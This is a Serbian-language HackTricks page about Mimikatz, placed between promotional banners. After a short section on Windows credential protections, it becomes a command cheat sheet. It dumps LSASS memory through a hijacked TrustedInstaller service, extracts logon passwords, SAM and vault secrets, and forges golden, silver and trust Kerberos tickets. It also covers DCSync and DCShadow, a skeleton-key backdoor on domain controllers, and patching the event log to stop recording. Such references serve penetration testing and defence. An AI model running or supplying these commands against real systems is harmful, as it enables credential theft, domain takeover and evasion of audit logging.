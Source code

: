 # Mimikatz

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Ova stranica je bazirana na jednoj sa** [**adsecurity.org**](https://adsecurity.org/?page\_id=1821). Proverite original za dodatne informacije!

## LM i čisti tekst u memoriji

Od Windows 8.1 i Windows Server 2012 R2 verzija, značajne mere su preduzete kako bi se zaštitili od krađe akreditacija:

* **LM heševi i lozinke u čistom tekstu** više nisu smešteni u memoriji radi poboljšane sigurnosti. Specifično podešavanje registra, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_, mora biti konfigurisano sa DWORD vrednošću `0` kako bi se onemogućila Digest autentifikacija, čime se osigurava da "čisti tekst" lozinke nisu keširane u LSASS-u.
* **LSA zaštita** je uvedena kako bi se zaštitio proces Local Security Authority (LSA) od neovlašćenog čitanja memorije i ubacivanja koda. To se postiže označavanjem LSASS-a kao zaštićenog procesa. Aktivacija LSA zaštite uključuje:

1. Izmenu registra na putanji _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ postavljanjem `RunAsPPL` na `dword:00000001`.
2. Implementaciju Group Policy Object (GPO) koji primenjuje ovo promene registra na upravljanim uređajima.

Uprkos ovim zaštitama, alati poput Mimikatz-a mogu zaobići LSA zaštitu koristeći određene drajvere, iako će takve radnje verovatno biti zabeležene u evidenciji događaja.

### Protivljenje uklanjanju SeDebugPrivilege

Administratori obično imaju SeDebugPrivilege privilegiju, koja im omogućava da debaguju programe. Ova privilegija može biti ograničena kako bi se sprečilo neovlašćeno izvlačenje memorije, uobičajena tehnika koju napadači koriste za izvlačenje akreditacija iz memorije. Međutim, čak i sa uklonjenom ovom privilegijom, TrustedInstaller nalog i dalje može vršiti izvlačenje memorije koristeći prilagođenu konfiguraciju servisa:

```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```

Ovo omogućava preuzimanje memorije `lsass.exe` u datoteku, koja se zatim može analizirati na drugom sistemu kako bi se izvukli podaci za prijavu:

```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```

## Opcije Mimikatz-a

Manipulacija događajnim zapisima u Mimikatz-u uključuje dve osnovne radnje: brisanje događajnih zapisa i zakrpu Event servisa kako bi se sprečilo beleženje novih događaja. U nastavku su navedene komande za izvođenje ovih radnji:

#### Brisanje događajnih zapisa

* **Komanda**: Ova radnja ima za cilj brisanje događajnih zapisa, čime se otežava praćenje zlonamernih aktivnosti.
* Mimikatz ne pruža direktnu komandu u svojoj standardnoj dokumentaciji za brisanje događajnih zapisa direktno putem komandne linije. Međutim, manipulacija događajnim zapisima obično uključuje korišćenje sistemskih alata ili skripti van Mimikatz-a za brisanje određenih zapisa (npr. korišćenjem PowerShell-a ili Windows Event Viewer-a).

#### Eksperimentalna funkcionalnost: Zakrpa Event servisa

* **Komanda**: `event::drop`
* Ova eksperimentalna komanda je namenjena izmeni ponašanja Event Logging servisa, čime se efektivno sprečava beleženje novih događaja.
* Primer: `mimikatz "privilege::debug" "event::drop" exit`
* Komanda `privilege::debug` obezbeđuje da Mimikatz radi sa neophodnim privilegijama za izmenu sistemskih servisa.
* Komanda `event::drop` zatim zakrpljuje Event Logging servis.

### Napadi na Kerberos tikete

### Kreiranje Zlatnog Tiketa

Zlatni Tiket omogućava impersonaciju pristupa na nivou domena. Ključna komanda i parametri:

* Komanda: `kerberos::golden`
* Parametri:
* `/domain`: Ime domena.
* `/sid`: Sigurnosni identifikator (SID) domena.
* `/user`: Korisničko ime za impersonaciju.
* `/krbtgt`: NTLM heš servisnog naloga KDC-a domena.
* `/ptt`: Direktno ubacuje tiket u memoriju.
* `/ticket`: Čuva tiket za kasniju upotrebu.

Primer:

```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```

### Kreiranje Silver Tiketa

Silver Tiketi omogućavaju pristup određenim uslugama. Ključna komanda i parametri:

* Komanda: Slično kao i za Golden Tiket, ali cilja određene usluge.
* Parametri:
* `/service`: Usluga koja se cilja (npr. cifs, http).
* Ostali parametri su slični kao za Golden Tiket.

Primer:

```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```

### Kreiranje Trust Tiketa

Trust Tiketi se koriste za pristup resursima između domena putem poverenja između njih. Ključna komanda i parametri:

* Komanda: Slično kao i Golden Ticket, ali za poverene odnose.
* Parametri:
* `/target`: FQDN ciljnog domena.
* `/rc4`: NTLM heš za nalog poverenja.

Primer:

```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```

### Dodatne Kerberos komande

* **Izlistavanje karata**:
* Komanda: `kerberos::list`
* Izlistava sve Kerberos karte za trenutnu korisničku sesiju.
* **Prosljeđivanje keša**:
* Komanda: `kerberos::ptc`
* Ubacuje Kerberos karte iz keš fajlova.
* Primer: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`
* **Prosljeđivanje karte**:
* Komanda: `kerberos::ptt`
* Omogućava korišćenje Kerberos karte u drugoj sesiji.
* Primer: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`
* **Brisanje karata**:
* Komanda: `kerberos::purge`
* Briše sve Kerberos karte iz sesije.
* Korisno pre korišćenja komandi za manipulaciju kartama kako bi se izbegli konflikti.

### Manipulacija Active Directory-jem

* **DCShadow**: Privremeno čini mašinu da se ponaša kao DC za manipulaciju AD objektima.
* `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`
* **DCSync**: Oponaša DC da bi zatražio podatke o lozinkama.
* `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

### Pribavljanje akreditiva

* **LSADUMP::LSA**: Izvlači akreditive iz LSA.
* `mimikatz "lsadump::lsa /inject" exit`
* **LSADUMP::NetSync**: Oponaša DC koristeći podatke o lozinkama računa računara.
* _Nije pružena posebna komanda za NetSync u originalnom kontekstu._
* **LSADUMP::SAM**: Pristup lokalnoj SAM bazi podataka.
* `mimikatz "lsadump::sam" exit`
* **LSADUMP::Secrets**: Dekriptuje tajne koje su smeštene u registru.
* `mimikatz "lsadump::secrets" exit`
* **LSADUMP::SetNTLM**: Postavlja novi NTLM heš za korisnika.
* `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`
* **LSADUMP::Trust**: Pribavlja informacije o autentifikaciji poverenja.
* `mimikatz "lsadump::trust" exit`

### Razno

* **MISC::Skeleton**: Ubacuje zadnja vrata u LSASS na DC-u.
* `mimikatz "privilege::debug" "misc::skeleton" exit`

### Eskalacija privilegija

* **PRIVILEGE::Backup**: Pribavlja prava za pravljenje rezervnih kopija.
* `mimikatz "privilege::backup" exit`
* **PRIVILEGE::Debug**: Pribavlja privilegije za debagovanje.
* `mimikatz "privilege::debug" exit`

### Pribavljanje akreditiva

* **SEKURLSA::LogonPasswords**: Prikazuje akreditive za prijavljene korisnike.
* `mimikatz "sekurlsa::logonpasswords" exit`
* **SEKURLSA::Tickets**: Izvlači Kerberos karte iz memorije.
* `mimikatz "sekurlsa::tickets /export" exit`

### Manipulacija SID-om i tokenom

* **SID::add/modify**: Menja SID i SIDHistory.
* Dodaj: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
* Modifikuj: _Nije pružena posebna komanda za modifikaciju u originalnom kontekstu._
* **TOKEN::Elevate**: Oponaša tokene.
* `mimikatz "token::elevate /domainadmin" exit`

### Terminalne usluge

* **TS::MultiRDP**: Dozvoljava više RDP sesija.
* `mimikatz "ts::multirdp" exit`
* **TS::Sessions**: Izlistava TS/RDP sesije.
* _Nije pružena posebna komanda za TS::Sessions u originalnom kontekstu._

### Trezor

* Izvlači lozinke iz Windows trezora.
* `mimikatz "vault::cred /patch" exit`

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova** [**hacktricks repo-u**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo-u**](https://github.com/carlospolop/hacktricks-cloud).

</details>
